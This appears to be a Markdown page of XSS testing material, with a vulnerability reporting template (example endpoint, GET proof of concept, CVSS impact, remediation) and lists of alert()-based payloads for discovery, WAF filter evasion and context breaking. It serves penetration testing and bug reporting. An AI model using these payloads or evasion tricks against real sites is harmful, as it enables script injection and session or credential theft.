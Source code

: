 ## 📊 REPORTING TEMPLATE {#reporting}

### Vulnerable Endpoint
- **URL**: https://example.com/search
- **Parameter**: q
- **Method**: GET
- **Payload**: `<script>alert('XSS')</script>`

### Proof of Concept
```html
GET /search?q=<script>alert('XSS')</script> HTTP/1.1
Host: example.com
```

### Impact Assessment
- **Severity**: High
- **CVSS**: 8.2
- **Impact**: 
  - Session hijacking
  - Credential theft
  - Page defacement
  - Malware distribution

### Remediation
1. Input validation
2. Output encoding
3. CSP implementation
4. Secure headers

## 🎯 PAYLOADY WEDŁUG SCENARIUSZA

### 1. Basic Discovery
```html
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>
```

### 2. WAF Testing
```html
<ScRiPt>alert('XSS')</ScRiPt>
<script>alert`XSS`</script>
<script>window['al'+'ert']('XSS')</script>
```

### 3. Context Breaking
```html
';alert('XSS');//
" onmouseover="alert('XSS')" "
</script><script>alert('XSS')</script>
```
